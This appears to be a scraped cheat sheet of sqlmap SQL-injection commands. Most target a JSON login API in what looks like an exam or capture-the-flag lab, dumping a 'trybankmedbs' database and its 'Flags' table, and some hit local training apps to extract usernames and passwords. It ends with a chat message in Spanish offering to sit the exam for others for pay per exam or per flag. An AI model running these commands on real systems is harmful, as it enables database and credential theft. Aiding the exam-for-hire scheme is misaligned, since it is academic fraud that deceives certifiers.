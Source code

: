 



sqlmap -u "http://10.200.150.100:8080/api/v1.0/auth" --data='{"username":"super","password":"Super@123"}' -H "Content-Type: application/json" --method=POST --ignore-code=401 -D trybankmedbs --tables --dump --batch


sqlmap -u "http://10.200.150.100:8080/api/v1.0/auth" --data='{"username":"super*","password":"Super@123"}' -H "Content-Type: application/json" --method=POST --dbs --batch



    sqlmap -u "http://10.200.150.100:8080/api/v1.0/auth" --data='{"username":"admin","password":"admin"}' --header="Content-Type:application/json" --method=POST --ignore-code=401 --dump-all





sqlmap -u "http://10.200.150.100:8080/api/v1.0/auth" --data='{"username":"admin","password":"admin"}' --header='Content-Type: application/json' --method=POST --batch -T Flags -D trybankmedbs  --ignore-code=401





sqlmap -u "http://10.200.150.100:8080/api/v1.0/auth" --data='{"username":"admin","password":"admin"}' --header="Content-Type: application/json" --method=POST --ignore-code=401 -D trybankmedbs -T Flags --dump





### Ejemplos
└─$ sqlmap -u "http://127.0.0.1:8000/login1.php?msg=1" --method=POST --data="uid=admin&password=root" --dbms=mysql --batch -D sqlitraining --tables



sqlmap -u "http://127.0.0.1:8000/login1.php?msg=1" --method=POST --data="uid=admin&password=root" --dbms=mysql --batch -D sqlitraining -T users -C username,password --dump


sqlmap -u "http://localhost/computer_parts/register.php" \
--method=POST \
--data="first_name=Test&last_name=User&email=test2@example.com&password=abc123" \
--dbms=mysql --batch \
--output-dir=~/Desktop/sqlmap_project/register


-------------------------------------------------------------------------------------------------------------------------

John Doe, [15/8/2025 4:14]
¿Alguien quiere que le haga el examen? ¡Por favor, envíenme un mensaje directo!
La oferta es para todo el examen y también por bandera.
Para obtener orientación, no duden en contactarme también por mensaje directo.
He aprobado este examen tres veces en diferentes equipos, así que puedo ayudar.

John Doe, [15/8/2025 4:19]
Para la web:
Recomiendo empezar de una forma que no sea demasiado compleja; de lo contrario, se cansará fácilmente.
Primero, cree una cuenta y capture todos sus datos.
